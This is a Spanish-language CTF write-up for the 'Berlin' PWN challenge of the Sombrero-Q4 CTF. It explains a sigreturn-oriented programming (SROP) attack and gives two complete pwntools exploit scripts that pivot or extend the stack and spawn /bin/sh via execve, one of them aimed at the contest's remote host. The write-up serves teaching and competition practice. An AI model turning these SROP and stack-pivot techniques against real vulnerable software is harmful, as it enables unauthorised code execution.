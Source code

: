 ```yaml
---
layout: single
classes: wide
title: "Sombrero-Q4 CTF [PWN] Berlin"
excerpt: "Aquí dejo un writeup cortito para el desafío Berlin de la categoría PWN, hecho por dplastico del CTF de SombreroBlanco, llevado a cabo el fin de semana del 25 de Julio. Tenia una puntuacion de 500 pts y, si bien el CTF tenia puntuacion dinámica, se mantuvo ahi por la baja cantidad de soluciones que tuvo."
---
```


Aquí dejo un writeup cortito para el desafío Berlin de la categoría PWN, hecho por [dplastico](https://dplastico.me/) del CTF de SombreroBlanco & Q4, llevado a cabo el fin de semana del 25 de Julio. Tenia una puntuacion de 500 pts y, si bien el CTF tenia puntuacion dinámica, se mantuvo ahi por la baja cantidad de soluciones que tuvo.

Pueden descargar el binario [aqui](https://c4ebt.github.io/content/sombrero2020/berlin).

Para sacar la shell de este binario usé una técnica llamada SROP. Recomiendo investigar un poco sobre ella si quieren entender lo que pasa de mejor manera :D

En un principio lo que mas me complico para resolver el desafío fue la falta de espacio para roppear y la falta de gadgets para pivotear, ya que SROP requiere de mucho espacio en el stack para introducir la SigReturn Frame, que es bastante larga. La falta de gadgets en verdad fue una falta de visión miá o algo, ya que por alguna razón pensé que no podia usar un gadget que era bastante claro.

Aquí dejo un dump de las instrucciones del binario, explicando un poco como va la gadget chain para pivotear el stack:

![](https://c4ebt.github.io/assets/images/content/sombrero2020/dump.png)

La forma intencional para resolver el desafío era mediante el simple uso de esta gadget chain, pero como dije antes, yo no la vi en un principio. Por eso pase un tiempo buscando otra forma de explotar el binario, sin necesidad de un stack pivot. Finalmente, llegue a un exploit en el que llamaba a la syscall de read nuevamente, pero esta vez apuntando a un buffer (mediante el control de `rsi`) que estaba mas arriba en el stack, lo que me permitiría sobreescribir aun mas el stack, dándome mas espacio (en este caso virtualmente ilimitado) para poder roppear y tirar mi SigReturn frame tranquilo. 

Logré sacar una shell localmente con este exploit, pero no pude hacer que funcionara de manera remota. Esto se debe a que los setups remoto y local son diferentes, por lo que las variables de ambiente están posicionadas también de manera diferente en el stack. Esto probablemente causo que en la instancia remota mi exploit sobreescribiera alguna env var importante, causando que el proceso crashee. La otra posibilidad es que, al ser diferentes los stacks, los offsets que use para mi exploit hayan sido diferentes también. Esta segunda posibilidad es fácilmente solucionable en la posesión de un debugger y de manera local, pero al estar la diferencia en la instancia remota, habría requerido fuerza bruta a algún offset, siendo la técnica  potencialmente imposible.

Aquí dejo entonces ambos exploits, el de la gadget chain simple (que funcionaba de manera remota) y el mas complejo que no funcionaba. Siendo la vulnerabilidad la misma, son considerablemente similares, variando solo en algunos puntos.


#### ret2read:
```python
#!/usr/bin/python
from pwn import *

context.log_level = 'DEBUG'
p = process("./berlin")
#p = gdb.debug("./berlin", "b *0x004000f5")
#p = remote("46.101.118.108", 12345)

stack = u64(p.recv(8))
log.info("Stack: " + hex(stack))

junk = "/bin/sh\x00".ljust(512, "A")

# Addresses
loop = p64(0x004000f5)
mov_edx_syscall = p64(0x4000d5)
xors = p64(0x4000dd)
mov_rsi_rsp = p64(0x400108)
syscall = p64(0x4000da)
write = p64(0x4000f2)


payload = (junk
        + mov_rsi_rsp		# Setear rsi a una direccion del stack
        + xors			# Resetear otros registros para la syscall de read
        + mov_edx_syscall	# read syscall a un buffer en el stack para tener mas espacio
        )

p.sendline(payload)

context.arch = 'amd64'
frame = SigreturnFrame()

frame.rip = 0x4000da # syscall
frame.rax = 0x3b     # execve
frame.rdi = stack - 520        # binsh
frame.rdx = 0	     # NULL argv
frame.rsi = 0	     # NULL envp
frame.rsp = stack    # No es necesario

payload = (p64(0x00)*2	# Offset
        + xors		# Resetear registros
        + p64(0x4000ec)	# mini-read (me sirvio para evitar algunos errores, es posible no usarlo)
        + syscall	# mini-read
        + loop*14	# Loop para llegar a rax=15
        + syscall	# SigReturn
        + str(frame)	# SigReturn Frame
        )

payload = payload.ljust(0x228, "Y")

p.sendline(payload)

p.interactive()
```

#### Gadget chain stack pivot:
```python
#!/usr/bin/python
from pwn import *

context.log_level = 'DEBUG'
#p = process("./berlin")
#p = gdb.debug("./berlin", "b *0x004000f5")
p = remote("46.101.118.108", 12345)

stack = u64(p.recv(8)) # Stack leak que nos da el binario
log.info("Stack: " + hex(stack))


# Addresses
loop = p64(0x004000f5)  	# Address del gadget que nos permite incrementar rax para
				# llegar a la syscall 15 (SigReturn)
mov_edx_syscall = p64(0x4000d5)
xors = p64(0x4000dd)
mov_rsi_rsp = p64(0x400108) # mov    rsi,rsp; ret;
syscall = p64(0x4000da)

context.arch = 'amd64'
frame = SigreturnFrame()

frame.rip = 0x4000da # syscall
frame.rax = 0x3b     # execve
frame.rdi = stack - 520        # filename: "/bin/sh\x00"
frame.rdx = 0	     # NULL argv
frame.rsi = 0	     # NULL envp
frame.rsp = stack    # No es necesario


payload2 = ("/bin/sh\x00" # String para la call a execve
        + xors		  # Resetear registros
        + loop*15	  # Loop para llegar a rax=15
        + syscall	  # SigReturn
        + str(frame)	  # SigReturn Frame
        )

payload2 = payload2.ljust(512, "Y")
payload1 = (payload2
        + mov_rsi_rsp	# Poner una direccion del stack en rsi
        + p64(0x40011c) # xor r15, rsi; ret
        + p64(0x40010c) # sub    r15,0x200; mov    rsp,r15; ret;
        )


p.sendline(payload1)
p.interactive()
```

Gracias a los organizadores del CTF, estuvo muy divertido :D
Cualquier duda están mis redes sociales adjuntadas en la pagina web para que puedan ponerse en contacto.

Keep pwning!
